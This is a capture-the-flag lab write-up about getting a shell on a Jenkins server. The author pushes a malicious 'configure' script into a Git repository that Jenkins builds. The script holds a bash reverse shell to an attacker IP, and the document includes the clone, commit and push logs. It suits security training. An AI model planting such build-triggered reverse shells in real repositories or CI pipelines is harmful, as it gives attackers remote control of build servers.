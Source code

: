 # jenkins-leveraging-code-repo

#### Objective: Leverage the scenario to get a shell on the Jenkins machine and retrieve the flag!

----

#### Bug

- The administrator has allowed all users to fire build on a pre-defined job and view build logs without logging in. However, defining a new task or changing the build process is only allowed to logged-in users.

----

- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

![](images/6.png)

```sh
root@attackdefense:~/Desktop# git clone http://192.83.162.4/root/sample-web-server.git
Cloning into 'sample-web-server'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 5.12 KiB | 2.56 MiB/s, done.
root@attackdefense:~/Desktop# 
```

```sh
root@attackdefense:~/Desktop# cd sample-web-server/
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 28
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

`configure`

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.83.162.2/8080 0>&1
```

```sh
root@attackdefense:~/Desktop/sample-web-server# vim configure
root@attackdefense:~/Desktop/sample-web-server# chmod +x configure 
root@attackdefense:~/Desktop/sample-web-server# ls -l
total 32
-rw-r--r-- 1 root root   138 Jun 10 17:11 Makefile
-rw-r--r-- 1 root root  1049 Jun 10 17:11 README.md
-rwxr-xr-x 1 root root    56 Jun 10 17:14 configure
-rw-r--r-- 1 root root    42 Jun 10 17:11 index.html
-rw-r--r-- 1 root root 13225 Jun 10 17:11 tiny.c
root@attackdefense:~/Desktop/sample-web-server# 
```

```sh
root@attackdefense:~/Desktop/sample-web-server# git add .
root@attackdefense:~/Desktop/sample-web-server# git commit -m "updated shell"
[master 816da74] updated shell
 Committer: root <root@cb18f1d55887>
Your name and email address were configured automatically based
on your username and hostname. Please check that they are accurate.
You can suppress this message by setting them explicitly. Run the
following command and follow the instructions in your editor to edit
your configuration file:

    git config --global --edit

After doing this, you may fix the identity used for this commit with:

    git commit --amend --reset-author

 1 file changed, 3 insertions(+)
 create mode 100755 configure
root@attackdefense:~/Desktop/sample-web-server# git push
Username for 'http://192.83.162.4': root
Password for 'http://root@192.83.162.4': 
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 48 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 314 bytes | 314.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0)
To http://192.83.162.4/root/sample-web-server.git
   e5a5285..816da74  master -> master
root@attackdefense:~/Desktop/sample-web-server# 
```

![](images/7.png)

![](images/8.png)

![](images/9.png)

![](images/10.png)

![](images/11.png)

![](images/12.png)

![](images/13.png)

----

EOF
